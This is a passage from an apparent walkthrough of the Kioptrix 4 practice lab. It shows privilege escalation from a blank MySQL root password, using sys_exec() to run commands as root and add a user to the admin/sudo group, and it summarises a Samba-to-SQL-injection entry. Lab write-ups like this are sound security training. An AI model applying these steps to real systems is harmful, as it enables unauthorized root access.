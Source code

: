Checking the /var/www folder for the web app we find /var/www/checklogin.php this contains the login information for connecting to the db and shows the user as root and password as blank. Now we can login and try getting mysql to run system commands as root.
{% highlight python %}
mysql -u root

mysql> select sys_exec('id');       
+----------------+
| sys_exec('id') |
+----------------+
| NULL           | 
+----------------+
1 row in set (0.00 sec)
{% endhighlight %}
There's nothing to indicate that the command ran so we output it to a file and check the file for output.
{% highlight python %}
mysql> select sys_exec('id > /tmp/test.txt');
+--------------------------------+
| sys_exec('id > /tmp/test.txt') |
+--------------------------------+
| NULL                           | 
+--------------------------------+
1 row in set (0.00 sec)

ls -al /tmp
-rw-rw----  1 root root   24 2017-04-24 08:47 test.txt
{% endhighlight %}
The file is created as the root user so we cant view it, we can change ownership by using chown on the file.
{% highlight python %}
mysql> select sys_exec('chown robert.robert /tmp/test.txt');
{% endhighlight %}
After viewing the file we can see id outputted that it ran as root (also indicated when the file was created as root). This means any commands ran with sys_exec will be executed as the root user. We can now use this to add our user to the admin group and sudoers.
{% highlight python %}
mysql> select sys_exec('usermod -a -G admin robert');

robert@Kioptrix4:~$ sudo su
[sudo] password for robert: 
root@Kioptrix4:/home/robert# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}
## Conclusion
Server runs a web app and Samba service, samba leaks usernames which are used with sql injection to bypass entering the user password to login. The web app then returns the user profile which displays the password in clear text, this is then used to ssh into the server. 
